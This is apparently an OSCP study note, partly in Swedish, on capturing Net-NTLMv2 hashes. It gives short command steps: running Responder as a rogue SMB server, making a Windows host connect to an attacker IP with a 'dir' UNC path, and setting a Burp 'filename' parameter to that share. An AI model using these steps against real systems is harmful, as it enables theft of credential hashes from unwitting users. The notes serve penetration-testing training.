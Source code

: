 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/7-password-attacks/7-net-ntl-mv2-stealing/"}
---
```


- Another way of accessing hashes is by capturing them in the middle of an authentication to a controlled system.
- Hashes are spilled when trying to authenticate using the Net-NTLMv2 protocol instead of Kerberos, which is more secure.
- This could be done by already having RCE and accessing higher privileged hashes, or by forcing the system via some function to authenticate against our controlled machine

----------------

### RCE Net-NTLMv2 Hash Steal:
1. Enumerera användaren (valfritt):
```
net user <user>
```
2. Sätt upp SMB Server med Responder i Kali:
```
sudo responder -I <interface>
```
3. Skicka en förfrågan efter en arbiträr share på SMB-servern från Windows:
```
dir \\192.168.X.X\test
```
4. Win!

----------
### File Upload Net-NTLMv2 Hash Steal:
1. Modifiera Burp Requesten för parametern 'filename' att ladda upp en arbiträr fil från Responder-SMB:n.
2. Win!

